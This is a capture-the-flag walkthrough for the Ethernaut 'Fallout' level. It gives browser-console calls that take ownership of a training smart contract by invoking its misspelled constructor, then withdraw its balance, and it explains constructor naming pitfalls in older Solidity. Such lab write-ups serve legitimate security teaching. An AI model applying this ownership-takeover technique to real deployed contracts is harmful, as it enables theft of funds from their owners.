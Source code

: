 # Fallout

## Objective

Exploit a smart contract with a misnamed constructor to become the owner and (optionally) withdraw its balance.

---

## Getting Started

1. Go to [ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/)
2. Select the **"Fallout"** level
3. Click **“Get new instance”** and approve the transaction in MetaMask
4. The instance is now deployed and available as the `contract` object in the browser console
5. Save the instance address:

    ```js
    contract.address
    ```

---

## Walkthrough

### Step 1: Check the Current Owner

```js
await contract.owner()
```

**Explanation:**
This checks the current owner of the contract. Initially, it is likely uninitialized or set to the zero address due to the constructor typo.

---

### Step 2: Call the Misnamed Constructor

```js
await contract.Fal1out({ value: "1" })
```

**Explanation:**
The constructor was misspelled as `Fal1out`, making it a public function. Calling it allows you to become the contract owner.

---

### Step 3: Confirm Ownership

```js
await contract.owner()
```

**Explanation:**
Verifies that you are now the owner after calling the misnamed constructor.

---

### Step 4: (Optional) Withdraw Allocations

```js
await contract.collectAllocations()
```

**Explanation:**
If the contract holds ETH, only the owner can withdraw it using this function.

---

### Step 5: Submit the Level

Submit the instance in the Ethernaut UI and confirm the transaction in MetaMask to complete the level.

---

## What You Learn

This level teaches the following:

* The importance of correct constructor naming in Solidity versions before 0.7.0
* How typos in function names can introduce critical vulnerabilities
* How to exploit public functions to claim contract ownership
* The evolution to the `constructor` keyword in newer Solidity versions

---

## Resources Used

* [Ethernaut Game](https://ethernaut.openzeppelin.com/)
* [Solidity Docs](https://docs.soliditylang.org/)
* [YouTube Walkthrough](https://www.youtube.com/watch?v=1E0BTVudurM)
* [Blog Writeup](https://shubhamm.me/blog/09q-ethernaut-challenges-fallout)

---
